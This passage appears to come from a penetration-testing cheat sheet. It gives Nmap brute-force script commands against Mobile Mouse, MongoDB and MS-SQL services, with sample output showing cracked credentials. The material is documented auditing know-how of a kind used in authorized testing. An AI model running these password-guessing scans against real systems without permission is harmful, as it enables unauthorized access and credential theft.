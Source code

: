 


### MMouse - Brute-Force

_Performs Brute-Force password auditing against the RPA Tech Mobile Mouse servers_
     
```sh 
nmap --script mmouse-brute -p 51010 192.168.1.12
```

     |PORT      STATE SERVICE
     |51010/tcp open  unknown
     | mmouse-brute:
     |   Accounts
     |     vanilla - Valid credentials
     |   Statistics
     |_    Performed 1199 guesses in 23 seconds, average tps: 47




### MongoDB - Brute-Force

_ Performs Brute-Force password auditing against the MongoDB database_
     
```sh 
nmap -p 27017 192.168.1.12 --script mongodb-brute
```

     |PORT      STATE SERVICE
     |27017/tcp open  mongodb
     | mongodb-brute:
     |   Accounts
     |     root:Password1 - Valid credentials
     |   Statistics
     |_    Performed 3542 guesses in 9 seconds, average tps: 393

### MS-SQL - Brute-Force

_Performs password guessing against Microsoft SQL Server (ms-sql)_ Works best in conjunction with the broadcast-ms-sql-discover script_
     
```sh 
nmap -p 445 --script ms-sql-brute --script-args mssql.instance-all,userdb=customuser.txt,passdb=custompass.txt 192.168.1.12
```
```sh 
nmap -p 1433 --script ms-sql-brute --script-args userdb=customuser.txt,passdb=custompass.txt 192.168.1.12
```
